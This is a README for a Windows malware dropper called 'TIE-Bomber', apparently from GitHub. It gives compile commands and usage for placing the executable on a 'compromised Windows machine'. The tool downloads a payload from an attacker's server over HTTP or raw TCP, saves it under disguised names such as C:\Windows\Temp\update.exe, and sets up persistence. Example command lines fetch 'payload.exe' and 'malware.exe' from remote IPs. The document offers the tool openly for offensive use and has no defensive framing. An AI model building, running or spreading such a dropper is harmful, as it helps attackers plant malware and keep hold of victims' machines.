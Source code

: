 # TIE-Bomber Dropper

![img](TIE-Bombers.gif)

## Build
- Install ```mingw-64```
```
sudo apt update && sudo apt install mingw-w64
```
- Compile
```
x86_64-w64-mingw32-gcc -o TIE-Bomber.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lws2_32 -lurlmon -lwininet -lshlwapi TIE-Bomber.c
```
## Usage
> Place the TIE-Bomber.exe to the compromised Windows machine

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
dropper.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
dropper.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
dropper.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
